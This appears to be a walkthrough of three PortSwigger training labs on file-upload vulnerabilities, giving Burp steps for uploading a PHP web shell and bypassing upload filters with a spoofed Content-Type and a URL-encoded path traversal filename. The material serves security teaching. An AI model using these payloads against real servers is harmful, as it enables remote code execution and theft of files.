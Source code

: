 <!-- omit in toc -->
# File Upload Vulnerabilities

<!-- omit in toc -->
## Table of Contents

- [Remote code execution via web shell upload](#remote-code-execution-via-web-shell-upload)
- [Web shell upload via Content-Type restriction bypass](#web-shell-upload-via-content-type-restriction-bypass)
- [Web shell upload via path traversal](#web-shell-upload-via-path-traversal)

## Remote code execution via web shell upload
Reference: https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload

<!-- omit in toc -->
### Quick Solution
Upload the file as it is.

<!-- omit in toc -->
### Solution

1. While proxying traffic through Burp, log in to your account and notice the option for uploading an avatar image.
2. Upload an arbitrary image, then return to your account page. Notice that a preview of your avatar is now displayed on the page.
3. In Burp, go to Proxy > HTTP history. Click the filter bar to open the Filter settings dialog. Under Filter by MIME type, enable the Images checkbox, then apply your changes.
4. In the proxy history, notice that your image was fetched using a ``GET`` request to ``/files/avatars/<YOUR-IMAGE>``. Send this request to Burp Repeater.
5. On your system, create a file called exploit.php, containing a script for fetching the contents of Carlos's secret file. For example:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
6. Use the avatar upload function to upload your malicious PHP file. The message in the response confirms that this was uploaded successfully.
7. In Burp Repeater, change the path of the request to point to your PHP file:
```
GET /files/avatars/exploit.php HTTP/1.1
```
8. Send the request. Notice that the server has executed your script and returned its output (Carlos's secret) in the response.
Submit the secret to solve the lab.

## Web shell upload via Content-Type restriction bypass

Reference: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass

<!-- omit in toc -->
### Quick Solution
Change the ``Content-Type`` to ``image/jpeg`` or ``image/png`` during the POST request.

<!-- omit in toc -->
### Solution

1. Log in and upload an image as your avatar, then go back to your account page. 
2. In Burp, go to **Proxy > HTTP history** and notice that your image was fetched using a ``GET`` request to ``/files/avatars/<YOUR-IMAGE>``. Send this request to Burp Repeater. 
3. On your system, create a file called ``exploit.php``, containing a script for fetching the contents of Carlos's secret. For example:
```
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
```
4. Attempt to upload this script as your avatar. The response indicates that you are only allowed to upload files with the MIME type ``image/jpeg`` or ``image/png``.
5. In Burp, go back to the proxy history and find the ``POST /my-account/avatar`` request that was used to submit the file upload. Send this to Burp Repeater. 
6. In Burp Repeater, go to the tab containing the ``POST /my-account/avatar`` request. In the part of the message body related to your file, change the specified ``Content-Type`` to ``image/jpeg``.
7. Send the request. Observe that the response indicates that your file was successfully uploaded.
8. Switch to the other Repeater tab containing the ``GET /files/avatars/<YOUR-IMAGE>`` request. In the path, replace the name of your image file with ``exploit.php`` and send the request. Observe that Carlos's secret was returned in the response. 
9. Submit the secret to solve the lab.

## Web shell upload via path traversal

Reference: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal

<!-- omit in toc -->
### Quick Solution
Add a path traversal while uploading the avatar to reach a higher level directory. The basic path traversal is blocked, so the **slash** must be encoded as *%2F*.

<!-- omit in toc -->
### Solution

1. Log in and upload an image as your avatar, then go back to your account page.
2. In Burp, go to Proxy > HTTP history and notice that your image was fetched using a GET request to /files/avatars/<YOUR-IMAGE>. Send this request to Burp Repeater.
3. On your system, create a file called exploit.php, containing a script for fetching the contents of Carlos's secret. For example:
```   
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
4. Upload this script as your avatar. Notice that the website doesn't seem to prevent you from uploading PHP files.
5. In Burp Repeater, go to the tab containing the GET /files/avatars/<YOUR-IMAGE> request. In the path, replace the name of your image file with exploit.php and send the request. Observe that instead of executing the script and returning the output, the server has just returned the contents of the PHP file as plain text.
6. In Burp's proxy history, find the POST /my-account/avatar request that was used to submit the file upload and send it to Burp Repeater.
7. In Burp Repeater, go to the tab containing the POST /my-account/avatar request and find the part of the request body that relates to your PHP file. In the Content-Disposition header, change the filename to include a directory traversal sequence:
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
8. Send the request. Notice that the response says The file avatars/exploit.php has been uploaded. This suggests that the server is stripping the directory traversal sequence from the file name.
9. Obfuscate the directory traversal sequence by URL encoding the forward slash (/) character, resulting in:
filename="..%2fexploit.php"
10. Send the request and observe that the message now says The file avatars/../exploit.php has been uploaded. This indicates that the file name is being URL decoded by the server.
11. In the browser, go back to your account page.
12. In Burp's proxy history, find the GET /files/avatars/..%2fexploit.php request. Observe that Carlos's secret was returned in the response. This indicates that the file was uploaded to a higher directory in the filesystem hierarchy (/files), and subsequently executed by the server. Note that this means you can also request this file using GET /files/exploit.php.
13. Submit the secret to solve the lab.